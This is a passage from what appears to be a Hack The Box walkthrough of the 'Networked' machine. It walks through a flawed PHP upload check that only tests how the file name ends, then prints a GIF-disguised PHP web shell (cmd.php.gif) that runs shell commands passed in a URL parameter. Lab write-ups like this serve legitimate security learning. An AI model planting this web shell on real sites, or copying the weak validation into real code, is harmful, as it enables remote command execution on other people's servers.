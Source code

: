 Let\'s download it and see what\'s inside.

<a class="image-popup">
![d50974c8.png](/assets/images/posts/networked-htb-walkthrough/d50974c8.png)
</a>

Looks like the backup of the PHP files present in the site. If the acutal `upload.php` is identical to that of the backup, then there's a vulnerability with the upload form.

<div class="filename"><span>upload.php</span></div>

```php
// $name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"];
list ($foo,$ext) = getnameUpload($myFile["name"]);
$validext = array('.jpg', '.png', '.gif', '.jpeg');
$valid = false;
foreach ($validext as $vext) {
  if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
    $valid = true;
  }
}
```

<div class="filename"><span>lib.php</span></div>

```php
function getnameUpload($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  return array($name,$ext);
}
```

As long as the extension ends with one of extensions, we should be able to upload a PHP file with double extension, e.g. `cmd.php.gif`. Here's what `cmd.php.gif` looks like.

<div class="filename"><span>cmd.php.gif</span></div>

```php
GIF89a
<pre><?php echo shell_exec($_GET[0]); ?></pre>
```


[1]: https://www.hackthebox.eu/home/machines/profile/203
[2]: https://www.hackthebox.eu/home/users/profile/8292
[3]: https://www.hackthebox.eu/